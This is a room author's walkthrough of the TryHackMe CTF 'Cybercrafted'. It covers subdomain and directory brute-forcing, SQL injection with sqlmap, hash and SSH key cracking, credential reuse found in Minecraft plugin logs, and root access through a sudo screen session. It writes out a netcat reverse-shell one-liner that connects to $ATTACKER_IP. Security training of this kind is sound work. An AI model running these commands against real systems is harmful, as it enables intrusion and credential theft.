+++
title = 'Cybercrafted'
date = 2021-11-19T21:49:56+02:00
draft = false
tags = ['thm', 'writeup', 'special']
summary = '[Cybercrafted](https://tryhackme.com/room/cybercrafted) is a CTF-like challenge officially released on THM. This is the first CTF that I have created, and it features multiple misconfigurations & unsafe practices. This was prior to **Log4J** so any Minecraft exploitation routes are unintended.'
description = '"Cybercrafted" is my first CTF-style machine. Available officially on the THM platform.'
thumbnail = 'img/cc-logo.png'
+++

Initial Access
==============

Enumeration
-----------

### Nmap scan

We start out with an IP address. For the sake of the write-up, I will assume that the attacker's machine is `192.168.0.101` or `$ATTACKER_IP`, and the target machine is `192.168.0.102` or `$TARGET_IP`. We start out our enumeration with an Nmap scan:

```bash
sudo nmap -v -sC -sV -p- $TARGET_IP
```

Looking at the output we notice that the target has three open ports. SSH is not going to be useful for us because we don't have any credentials. The Minecraft server on the other hand has no disclosed vulnerabilities. In that case, we are left with the apache web server and from the HTTP title, we know that the index page redirects us to another domain: `cybercrafted.thm`. Nmap output:

```text
PORT      STATE SERVICE   VERSION
22/tcp    open  ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:36:ce:b9:ac:72:8a:d7:a6:b7:8e:45:d0:ce:3c:00 (RSA)
|   256 e9:e7:33:8a:77:28:2c:d4:8c:6d:8a:2c:e7:88:95:30 (ECDSA)
|_  256 76:a2:b1:cf:1b:3d:ce:6c:60:f5:63:24:3e:ef:70:d8 (ED25519)
80/tcp    open  http      Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to http://cybercrafted.thm/
25565/tcp open  minecraft Minecraft 1.7.2
MAC Address: 08:00:27:F6:02:38 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Because of the redirect to the newly discovered domain, we have to add it to our host's list. For this, you can use your favorite text editor. In my case it is vim:

```bash
sudo vim /etc/hosts
```



Now we can access the web app. We don't see much, just an image background stating that the Minecraft server and the online store are still in development.



We know that the Minecraft server exists however we haven't seen any online marketplaces. Let's keep on going with the enumeration. Next on our lineup is a tool called Gobuster that lets us brute force possible directories.

```bash
sudo gobuster dir -u http://cybercrafted.thm/ -w /usr/share/wordlists/dirb/common.txt
```



After the Gobuster scan, we notice that there is a directory called `/secret`. I'll let you explore this one on your own since it is not necessarily needed to complete this room. However one thing that is key for a challenge like this is to read the source code of the page. Since this page is mostly a background you can open up source code with: `CTRL + U`. On the index page, we find a comment that is the next clue on where to go.



### Subdomains

It seems that one of the developers has created new subdomains for the web application. Right now we don't know what they are but we can try to brute-force them. We could use Gobuster again but for the sake of the write-up, I will be showing you how to do it with Wfuzz.

```bash
wfuzz -c -f domains -w /usr/share/wordlists/dirb/common.txt -u "http://cybercrafted.thm" -H "Host: FUZZ.cybercrafted.thm" --sc 200,403
```



Now we have something to work with. In total, we have found three subdomains. What we are most interested in are the `store` and `admin` subdomain! Let's add both of these to the `/etc/hosts` file.



After taking a look at both of the subdomains we notice that the store subdomain index page is forbidden. We could try to brute-force the login for the admin subdomain but we don't know the username. Either way, before we do anything we must use Gobuster to check for anything hidden.

```bash
sudo gobuster dir -u http://store.cybercrafted.thm/ -w /usr/share/wordlists/dirb/common.txt -x php
sudo gobuster dir -u http://admin.cybercrafted.thm/ -w /usr/share/wordlists/dirb/common.txt -x php
```

            
        

The admin subdomain didn't turn up anything useful however the store subdomain did. It has a `search.php` page which we can access.



The admin subdomain didn't turn up anything useful however the store subdomain did. It has a `search.php` page which we can access.



WebApp Exploitation
-------------------

### SQL injection

Looking at this page we can right away tell that it is using some sort of a database to pull data from. If the page has been improperly developed we could maybe try an SQL injection. A gret tool for this is SQLmap. You can do this manually but for the sake of the write-up I'll use this command:

```bash
sqlmap --url "http://store.cybercrafted.thm/search.php" --forms --dump
```



After the SQL injection was successful we get both the user and its hash from the admin table. Now we can try to crack the hash. The first step is to figure out what type of hash it is. For this, I will be using a tool called Haiti. This will give me a list of possible hash types.

```bash
haiti <HASH>
```

From the output, we now can guess that the hash type is `SHA-1`. Haiti also gives us the JohnTheRipper and Hashcat formats. For the cracking, I will be using JohnTheRipper.

```bash
echo HASH > hash.txt john --wordlist=./rockyou.txt --format=raw-sha1 hash.txt
```

### Reverse shell

JohnTheRipper cracked the hash and now we can try to log in to the admin panel. We are in! The admin has the ability to run system commands which means we can try to get a reverse shell.



First, we set up our listener and then execute the payload to gain a reverse shell. We will be using a rather simple reverse shell from: [revshells.com](https://www.revshells.com/):

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc $ATTACKER_IP 4343 >/tmp/f
```



Privilege Escalation
====================

System user access
------------------

### Enumeration

Currently, we are `www-data` let's check out any users that might interest us. For that we can list the directories in the `/home` directory.



We see that there are two users. One of which we have read access to the home directory. Maybe we could find some sensitive files that can lead us to gain access. After looking around in the `/home` directory of the user we find that he has an SSH key that we for some reason can read. This means that we can freely connect to the target via SSH.



### Cracking SSH

But wait, the SSH key has a passphrase. Once again we will have to use JohnTheRipper to crack it. This time we need to use a python script to convert the SSH key to a John readable format. The script on kali linux by default is located in `/usr/share/john`.

```bash
./ssh2john.py id_rsa > john_rsa
```

Now that we have converted it to a John readable format we can use JohnTheRipper to crack the hash. Then we can use the passphrase to login:



Minecraft server access
-----------------------

### Enumeration

Looking around we find that the Minecraft server is running from the `/opt/minecraft` directory. Here we also find the Minecraft server flag. Note that we couldn't do this earlier with www-data because this user is part of the Minecraft group. But then again the group only has read permissions in the Minecraft directory. We also find a note that says that the other user has added a new Minecraft plugin to the server.



### Plugin exploitation

Those who have played Minecraft might already have an idea of where this is going. Either way, let's check out the plugin.



It's a login system that is used so that other players cant just play with someone else's username. Since the user cybercrafted set this plugin up he was the first one to register. People reuse their passwords a lot and maybe this is the case so let's check out the `passwords.yml` file.



Now we could jump the train and crack the hashes right away but maybe there is a better way. Since this is a crappy Minecraft plugin that stores passwords in md5 then what are the chances that it stores passwords in the log files when the user logs in?



Bingo! Now we can try to log in as the owner of the Minecraft server. Since he reused his password we now have access to his system account. Now lets root this machine. But before we do we can claim our user flag from the home directory.



Root access
-----------

### Exploitation

The user `cybercrafted` appears to be the admin of the Minecraft server, since he was the one who added the plugin and is the owner of the server files. Let's search for some possible privilege escalation vectors. After some basic enumeration we find that the user can run a specific command as root.



This command allows the user to join a screen session with the name `cybercrafted`. The Minecraft server is run as a service so that it starts on boot. We can check the configuration file in `/etc/systemd/system/minecraft.service`. The contents of this file show that the server is run by root and it uses screen to create a new session with the name `cybercrafted`.



We can run the following service session as root. Let's connect to the session as the root user by running by running the following command:

```bash
sudo /usr/bin/screen -r cybercrafted
```

We can see that we are in the Minecraft servers in-game console from which an admin can monitor the server.



We can escape from the in-game console in multiple ways. I will be using a default screen shortcut to go to the next window `CTRL + A + C`. This will drop us in a system shell as the root user. We can find the root flag at `/root/root.txt`.



Credits
=======

And there you have it! This was "Cybercrafted" by m4dr1nch. Thank you for completing my CTF box really hope you enjoyed it!
